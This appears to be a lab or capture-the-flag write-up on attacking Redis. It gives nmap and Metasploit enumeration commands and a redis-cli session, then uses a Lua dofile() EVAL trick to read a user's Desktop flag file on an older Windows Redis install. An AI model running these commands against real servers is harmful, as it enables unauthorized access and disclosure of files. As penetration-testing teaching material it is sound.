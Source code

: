 # Redis

Redis is an open source (BSD licensed), in-memory **data structure store**, used as a **database**, cache and message broker.\
**Default port:** 6379

```
nmap --script redis-info -sV -p 6379 <IP>
msf> use auxiliary/scanner/redis/redis_server
```

```
redis-cli -h 10.10.188.12 
10.10.188.12:6379> INFO

redis_version:2.8.2402

10.10.188.12:6379> CONFIG GET *

103) "dir"
104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"
```

Redis can execute sandboxed Lua scripts through the “EVAL” command. _dofile()_ is a command that can be used to enumerate files and directories. _dofile()_ is allowed by the sandbox in older Redis versions.

```
redis-cli -h 10.10.188.12 -p 6379 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0
(error) ERR Error running script (call to f_ce5d85ea1418770097e56c1b605053114cc3ff2e): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near 'FLAG-REDACTED' 
```

